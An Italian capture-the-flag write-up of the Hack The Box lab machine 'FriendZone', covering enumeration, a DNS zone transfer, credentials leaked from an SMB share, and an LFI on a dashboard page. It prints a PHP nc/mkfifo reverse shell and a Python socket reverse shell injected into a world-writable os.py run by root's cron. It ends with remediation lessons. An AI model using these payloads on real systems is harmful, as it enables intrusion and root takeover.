

**Author: Noto La Diega Alessandro**

**TARGET:10.10.10.123**

# INFORMATION GATHERING

Per prima cosa lanciamo un rapido scan con [[Nmap]]
```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]                                      └─# nmap -sC -sV -O -min-rate=5000 10.10.10.123                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 14:13 EDT                                                     
Nmap scan report for 10.10.10.123                                               

Host is up (0.043s latency).                                                 
Not shown: 993 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/6%OT=21%CT=1%CU=44185%PV=Y%DS=2%DC=I%G=Y%TM=647F7783
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=110%TI=Z%CI=I%II=I%TS=A)SEQ(
OS:SP=100%GCD=1%ISR=110%TI=Z%CI=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3
OS:=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m43s, deviation: 1h43m54s, median: 15s
| smb2-time: 
|   date: 2023-06-06T18:14:33 
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone 
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2023-06-06T21:14:33+03:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.69 seconds

```

Un ulteriore scan su tutte le porte non ci da nessuna nuova informazione
Quindi ricapitolando abbiamo 

- **Port 21:**  ftp vsftpd 3.0.3
- **Port 22**: OpenSSH 7.6p1 Ubuntu 4
- **Port 53:** ISC BIND 9.11.3–1ubuntu1.2 (DNS)
- **Ports 80 & 443**: Apache httpd 2.4
- **Ports 139 and 145:** Samba smbd 4.7.6-Ubuntu

La Porta 21 esegue una versione di vsfpd non vulnerabile ( le versione vulnerabili sono quelle 2.x.x) quindi avremmo bisogno di credenziali che per il momento non abbiamo 

La porta 22 analogamente a FTP, non ci sono molti exploit critici associati alla versione di SSH utilizzata, quindi avremo bisogno anche delle credenziali per questo servizio.

La porta 53 è aperta. La prima cosa che dobbiamo fare per questo servizio è ottenere il nome di dominio tramite nslookup e tentare un trasferimento di zona per enumerare i server dei nomi, i nomi host, ecc. Il certificato ssl dalla scansione nmap ci dà il nome comune friendzone.red. Questo potrebbe essere il nostro nome di dominio.

Le porte 80 e 443 mostrano titoli di pagina diversi. Questa potrebbe essere una configurazione di routing degli host virtuali. Ciò significa che se scopriamo altri host, dobbiamo enumerarli sia su HTTP che su HTTPS poiché potremmo ottenere risultati diversi.

Le porte SMB sono aperte. Dobbiamo svolgere le solite attività: controllare l'accesso anonimo, elencare le condivisioni e controllare i permessi sulle condivisioni.

# ENUMERATION

## Port 80 & 443 HTTP/S

Iniziamo dalla porta 80 


Visitando la pagina web possiamo vedere che l'e-mail è info@friendzoneportal.red. Il friendzoneportal.red potrebbe essere un possibile nome di dominio. Lo terremo a mente durante l'enumerazione dei DNS.
Visualizziamo il codice sorgente per vedere se riusciamo a trovare altre informazioni. ma non c'è nulla di nuovo 

Proviamo ad enumerare con [[Gobuster]]

```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# gobuster dir -u 10.10.10.123 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.123
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/06 14:32:15 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.123/wordpress/]
Progress: 9021 / 207644 (4.34%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/06/06 14:33:03 Finished
===============================================================
```

La directory /wordpress non fa riferimento ad altri link. Quindi ho eseguito gobuster anche nella directory /wordpress e non ho ottenuto nulla di utile.

Visitando il sito sulla 443 rieceviamo un errore quindi passiamo ed enumerare il DNS




## Port 53 DNS

```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# nslookup
> server 10.10.10.123
Default server: 10.10.10.123
Address: 10.10.10.123#53
> 10.10.10.123
;; communications error to 10.10.10.123#53: timed out
** server can't find 123.10.10.10.in-addr.arpa: NXDOMAIN
```

Non otteniamo nulla proviamo con un zone transfer su i due domini che abbiamo torvato
- friendzone.red
- friendzoneportal.red

```bash
──(root㉿kali)-[/home/kali/htb/friendzone]
└─# dig axfr friendzone.red @10.10.10.123                                        
; <<>> DiG 9.18.12-1-Debian <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 40 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Tue Jun 06 14:39:35 EDT 2023
;; XFR size: 8 records (messages 1, bytes 289)


┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# dig axfr friendzoneportal.red @10.10.10.123 
; <<>> DiG 9.18.12-1-Debian <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Tue Jun 06 14:40:41 EDT 2023
;; XFR size: 9 records (messages 1, bytes 309)

```

aggiungiamo tutti i domini al file /etc/hots e visitiamoli

I seguenti siti ci hanno mostrato risultati particolarmente interessanti.
https://admin.friendzoneportal.red/ e https://administrator1.friendzone.red/ hanno moduli di accesso.
https://uploads.friendzone.red/ ti consente di caricare immagini.
Ho provato le credenziali predefinite sui siti di amministrazione ma non ha funzionato. Prima di eseguire un cracker di password su questi due siti, enumeriamo SMB. Potremmo trovare le credenziali lì.

## Port 139 & 445 SMB

Partiamo da SQLMAP per vedere a cosa abbiamo accesso e con quali permessi

```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbmap -H 10.10.10.123  
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red             Disk                                                    Permissions     Comment  ----                                                    -----------     -------
print$                                                  NO ACCESS       Printer Drivers
Files                                                   NO ACCESS  
FriendZone Samba Server Files /etc/Files
general                                                 READ ONLY       FriendZone Samba Server Files
Development                                             READ, WRITE     FriendZone Samba Server Files
IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```

Rilanciamo smbmap con la flag -R per vedere quali file sono all'interno delle cartelle a cui abbiamo accesso 
```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbmap -R -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
Disk                                                    Permissions     Comment
----                                                    -----------     -------
print$                                                  NO ACCESS       Printer Drivers
Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
general                                                 READ ONLY       FriendZone Samba Server Files
        .\general\*
        dr--r--r--                0 Wed Jan 16 15:10:51 2019    .
        dr--r--r--                0 Tue Sep 13 10:56:24 2022    ..
        fr--r--r--               57 Tue Oct  9 19:52:42 2018    creds.txt
        Development                                             READ, WRITE     FriendZone Samba Server Files
        .\Development\*
        dr--r--r--                0 Tue Jun  6 14:54:23 2023    .
        dr--r--r--                0 Tue Sep 13 10:56:24 2022    ..
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))

```

Vediamo che abbiamo un file chaimato creds.txt che sembra molto interessante 
ci colleghiamo con smbclient con la flag -N ( per non richiedere password)

```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbclient  //10.10.10.123/general -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

                3545824 blocks of size 1024. 1650548 blocks available
smb: \> get creds.txt 
getting file \creds.txt of size 57 as creds.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> 

┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# cat creds.txt 
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Abbiamo le credenziali admin proviamole

- FTP non sono valide
- SSH non sono valide
- [https://admin.friendzoneportal.red/](https://admin.friendzoneportal.red/)ci fa loggare ma è un pagina i work-inprogress
- https://administrator1.friendzone.red/ siamo dentro ! ci dice di vistare la pagina /dashboard.php

Visitano /dashboard.php
Sembra essere una pagina che permette di visualizzare le immagini del sito. Cercheremo di ottenere l'accesso iniziale attraverso questa pagina.


Come possiamo vedere dice c'è l'immagine di deafult è al seguente indirizzo 
```bash
?image_id=a.jpg&pagename=timestamp
```


Mettiamo quel numero di timestamp nel parametro URL pagename. Dopo averlo fatto, non riceviamo più un messaggio "Final Access timestamp...".
Durante la nostra fase di enumerazione, abbiamo trovato un URL https://uploads.friendzone.red/ che ci permette di caricare immagini. Proviamo a vedere se le immagini che carichiamo lì possono essere visualizzate attraverso la pagina del dashboard.

No, non trova l'immagine. Spostiamo la nostra attenzione sul parametro pagename. Sembra che stia eseguendo uno script timestamp che genera un timestamp e lo emette sulla pagina. In base al modo in cui l'applicazione funziona attualmente, la mia sensazione istintiva è che prenda il nome del file "timestamp" e vi aggiunga ".php" e quindi esegua quello script. Pertanto, se questo è vulnerabile a LFI, sarebbe difficile divulgare file sensibili poiché l'estensione ".php" verrà aggiunta alla mia query.
Invece, proviamo prima a caricare un file php e poi a sfruttare la vulnerabilità LFI per produrre qualcosa sulla pagina. Durante la fase di enumerazione, abbiamo scoperto di disporre dei permessi READ e WRITE sulla condivisione Development e che è probabile che i file caricati su tale condivisione siano archiviati nella posizione /etc/Development (in base alla colonna Commenti).
Creiamo un semplice script test.php che emette la stringa "Funziona!" sulla pagina.

```bash
┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# cat test.php     
<?php
echo "It's working!";
?>   
```

con smbclient lo carichiamo nella condivisione Development
```bash

┌──(root㉿kali)-[/home/kali/htb/friendzone]
└─# smbclient  //10.10.10.123/Development -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jun  6 14:54:24 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022

                3545824 blocks of size 1024. 1648736 blocks available
smb: \> put test.php 
putting file test.php as \test.php (0.2 kb/s) (average 0.2 kb/s)
smb: \> dir
  .                                   D        0  Wed Jun  7 06:48:20 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  test.php                            A       31  Wed Jun  7 06:48:20 2023

                3545824 blocks of size 1024. 1648732 blocks available
smb: \> 

```

navighiamo alla pagina, https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test
>abbiamo sostituito il paramentro pageneme= con il percorso del file test


Funziona !! non ci resta che creare un revshell in php metterci in ascolto con nc e dovremmo esserci 

Revshell.php
```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f"); ?>
```

La carichiamo sulla condivisione 

```bash
smb: \> put revers.php 
putting file revers.php as \revers.php (0.8 kb/s) (average 0.5 kb/s)
smb: \> dir
  .                                   D        0  Wed Jun  7 06:58:13 2023
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  revers.php                          A      100  Wed Jun  7 06:58:14 2023
  test.php                            A       31  Wed Jun  7 06:48:20 2023

                3545824 blocks of size 1024. 1648728 blocks available
```

Ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
```

Visitiamo la pagina 
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/revers
> Ricordiamoci di non mettere il .php dopo revers

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.123] 48286
/bin/sh: 0: can't access tty; job control turned off

```

Con which python3 verifichiamo che abbiamo installato python3 cosi da poter effettuare un upgrade della shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

SHELL=/bin/bash script -q /dev/null


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
www-data@FriendZone:/var/www$    


```

Troviamo quelle che sembrano le credenziali dell'utente frined
```bash
www-data@FriendZone:/var/www$ ls
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ

```

```bash
www-data@FriendZone:/home/friend$ cat user.txt 
490aa9b40e10cef2b1294ac7ab55c884
```


# PRIVESC

Ci scarichiamo pspy(https://vk9-sec.com/how-to-enumerate-services-in-use-with-pspy/)

```bash
──(root㉿kali)-[/home/kali/tool/PrivEsc]
└─# git clone https://github.com/DominicBreuker/pspy
Cloning into 'pspy'...
remote: Enumerating objects: 1126, done.
remote: Counting objects: 100% (100/100), done.
remote: Compressing objects: 100% (58/58), done.
remote: Total 1126 (delta 46), reused 87 (delta 39), pack-reused 1026
Receiving objects: 100% (1126/1126), 9.29 MiB | 5.21 MiB/s, done.
Resolving deltas: 100% (498/498), done.
                                                                                
  
┌──(root㉿kali)-[/home/kali/tool/PrivEsc]
└─# cd pspy                   
                                                                                
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/pspy]
└─# go build
go: downloading github.com/spf13/cobra v1.4.0
go: downloading golang.org/x/sys v0.0.0-20220520151302-bc2c85ada10a
go: downloading github.com/spf13/pflag v1.0.5
                                                                                 
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/pspy]
└─# apt install golang
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
golang is already the newest version (2:1.19~1).
The following packages were automatically installed and are no longer required:
  bluez-firmware catfish firmware-ath9k-htc firmware-atheros firmware-brcm80211 firmware-intel-sound firmware-iwlwifi firmware-libertas firmware-realtek firmware-sof-signed firmware-ti-connectivity firmware-zd1211 freeglut3
  gir1.2-xfconf-0 kali-linux-firmware libatk1.0-data libcfitsio9 libclang-cpp11 libev4 libexporter-tiny-perl libflac8 libfmt8 libgdal31 libgeos3.11.0 libgssdp-1.2-0 libgupnp-1.2-1 libhttp-server-simple-perl libilmbase25
  liblist-moreutils-perl liblist-moreutils-xs-perl libllvm11 libmpdec3 libnginx-mod-http-geoip libnginx-mod-http-image-filter libnginx-mod-http-xslt-filter libnginx-mod-mail libnginx-mod-stream libnginx-mod-stream-geoip libopenexr25
  libopenh264-6 libperl5.34 libplacebo192 libpoppler118 libprotobuf23 libpython3.10 libpython3.10-dev libpython3.10-minimal libpython3.10-stdlib libpython3.9-minimal libpython3.9-stdlib libsvtav1enc0 libtbb12 libtbbbind-2-5
  libtbbmalloc2 libwebsockets16 libwireshark15 libwiretap12 libwsutil13 libzxingcore1 linux-image-5.18.0-kali5-amd64 llvm-11 llvm-11-dev llvm-11-linker-tools llvm-11-runtime llvm-11-tools nginx-core openjdk-11-jre perl-modules-5.34
  php8.1-mysql python-pastedeploy-tpl python3-commonmark python3-dataclasses-json python3-limiter python3-marshmallow-enum python3-mypy-extensions python3-ntlm-auth python3-requests-ntlm python3-responses python3-speaklater
  python3-spyse python3-token-bucket python3-typing-inspect python3.10 python3.10-dev python3.10-minimal python3.9 python3.9-minimal ruby3.0 ruby3.0-dev ruby3.0-doc
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 27 not upgraded.
                                                                                
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/pspy]
└─# ls
cmd  docker  go.mod  go.sum  images  internal  LICENSE  main.go  Makefile  pspy  README.md

```

Copiamo pspy nella nostra cartella /friendzone e con smbclient la carichiamo sempre sulla condivisione Development

```bash
smb: \> put pspy64 
putting file pspy as \pspy64 (1037.6 kb/s) (average 982.3 kb/s)

```

Dalla nostra shell gli diamo i privilegi d'esecuzione ma sembra che non abbiamo i permessi per farlo 

```bash
www-data@FriendZone:/$ cd etc/Development/
www-data@FriendZone:/etc/Development$ ls
pspy  revers.php  test.php
www-data@FriendZone:/etc/Development$ chmod +x pspy 
chmod: changing permissions of 'pspy': Operation not permitted
www-data@FriendZone:/etc/Development$ ls -la
total 4644
drwxrwxrwx  2 root   root       4096 Jun  7 14:19 .
drwxr-xr-x 89 root   root       4096 Sep 13  2022 ..
-rwxrw-rw-  1 nobody nogroup 4737737 Jun  7 14:19 pspy
-rwxrw-rw-  1 nobody nogroup     100 Jun  7 13:58 revers.php
-rwxrw-rw-  1 nobody nogroup      31 Jun  7 13:48 test.php
```

Lo copiamo nella cartella /tmp e gli forniamo i privilegi di esecuzione

```
www-data@FriendZone:/etc/Development$ cp pspy /tmp/   
www-data@FriendZone:/etc/Development$ cd /tmp/
www-data@FriendZone:/tmp$ ls
f  pspy
www-data@FriendZone:/tmp$ +x pspy 
+x: command not found
www-data@FriendZone:/tmp$ chmod +x pspy
```

Dopo aver esegutio pspy otteniamo il seguente output
```bash
2023/06/09 00:06:15 CMD: UID=0     PID=1      | /sbin/init splash 
2023/06/09 00:08:00 CMD: UID=0     PID=1080   | /usr/sbin/smbd --foreground --no-process-group 
2023/06/09 00:08:01 CMD: UID=0     PID=1082   | /bin/systemd-tmpfiles --clean 
2023/06/09 00:08:01 CMD: UID=0     PID=1081   | /usr/sbin/CRON -f 
2023/06/09 00:08:01 CMD: UID=0     PID=1084   | /usr/bin/python /opt/server_admin/reporter.py 
2023/06/09 00:08:01 CMD: UID=0     PID=1083   | /bin/sh -c /opt/server_admin/reporter.py
```

andiamo a vedere il file "reporter..py"
```python
friend@FriendZone:cat /opt/server:_admin/reporter.py_

#!/usr/bin/python 
import os 
to_address = "admin1@friendzone.com" 
from_address = "admin2@friendzone.com" 
print "[+] Trying to send email to %s"%to_address 

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"''' 

#os.system(command) # I need to edit the script later 
# Sam ~ python developer
```
La maggior parte della sceneggiatura è commentata, quindi non c'è molto da fare lì. Importa il modulo os. Forse possiamo dirottarlo. Individuiamo il modulo sulla macchina e vediamo se abbiamo i permessi di scrittura sul file.

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -la | grep os.py
-rwxrwxrwx  1 root root  26123 Jun  8 15:32 os.py
-rw-r--r--  1 root root  25917 Jun  8 15:34 os.pyc
```

Perfetto abbiamo i permessi di scrittura non ci resta cha modificare il file aggiungendo una revshell infondo al file 

```bash
import socket,subprocess,os;  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);  
s.connect(("10.10.14.42",1233));  
dup2(s.fileno(),0);  
dup2(s.fileno(),1);  
dup2(s.fileno(),2);  
p=subprocess.call(["/bin/sh","-i"]);
```

Ci mettiamo in ascolto con nc e aspettiamo che venga eseguito il cronjob

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 1233
listening on [any] 1233 ...

```

Abbiamo la nostra shell da root

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 1233
listening on [any] 1233 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.123] 57428
/bin/sh: 0: can't access tty; job control turned off
# ls 
certs
root.txt
# cat root.txt
7d60243c09e1c62d0e304a4fba40830f

```

# LESSON LEARNED

Per ottenere un punto d'appoggio iniziale sulla scatola abbiamo sfruttato sei vulnerabilità.

1. La possibilità di eseguire un trasferimento di zona che ci ha permesso di ottenere un elenco di tutti gli host per il dominio. Per evitare che si verifichi questa vulnerabilità, il server DNS deve essere configurato in modo da consentire solo i trasferimenti di zona da indirizzi IP attendibili. Vale la pena notare che anche se i trasferimenti di zona non sono consentiti, è comunque possibile enumerare l'elenco degli host tramite altri mezzi (non così semplici).
2. Abilitazione dell'accesso anonimo a una condivisione SMB che conteneva informazioni riservate. Ciò avrebbe potuto essere evitato disabilitando l'accesso anonimo/ospite sulle condivisioni SMB.
3. Se l'accesso anonimo non era abbastanza grave, una delle condivisioni SMB disponeva anche dell'accesso WRITE. Questo ci ha permesso di caricare una shell inversa. Ancora una volta, le restrizioni avrebbero dovuto essere messe in atto sulle condivisioni SMB che impediscono l'accesso.
4. Salvataggio delle credenziali in chiaro in un file sul sistema. Questo è purtroppo molto comune. Usa un gestore di password se hai difficoltà a ricordare le tue password.
5. Una vulnerabilità di inclusione di file locali (LFI) che ci ha permesso di eseguire un file sul sistema. Possibili rimedi includono il mantenimento di una lista bianca di file consentiti, la sanificazione dell'input, ecc.
6. Configurazione errata della sicurezza che ha concesso a un utente web dameon (www-data) le stesse autorizzazioni di un utente normale sul sistema. Non avrei dovuto essere in grado di accedere al flag user.txt durante l'esecuzione come utente www-data. L'amministratore di sistema avrebbe dovuto conformarsi al principio del privilegio minimo e al concetto di separazione dei privilegi.

Per aumentare i privilegi abbiamo sfruttato una vulnerabilità.

Una configurazione errata della sicurezza di un modulo Python. C'era un'attività pianificata eseguita da root. L'attività pianificata ha eseguito uno script che ha importato il modulo os.py. Di solito, un utente normale dovrebbe avere solo accesso in lettura a tali moduli, tuttavia è stato configurato come accesso rwx per tutti. Pertanto, lo abbiamo utilizzato a nostro vantaggio per dirottare il modulo python e includere una shell inversa che alla fine veniva eseguita con i privilegi di root. È comune che una tale vulnerabilità venga introdotta in un sistema quando un utente crea il proprio modulo e dimentica di limitare l'accesso in scrittura ad esso o quando l'utente decide di ridurre le restrizioni su un modulo Python corrente. Per questa macchina, abbiamo incontrato quest'ultimo. Lo sviluppatore avrebbe dovuto essere molto attento nel decidere di modificare la configurazione predefinita di questo specifico modulo.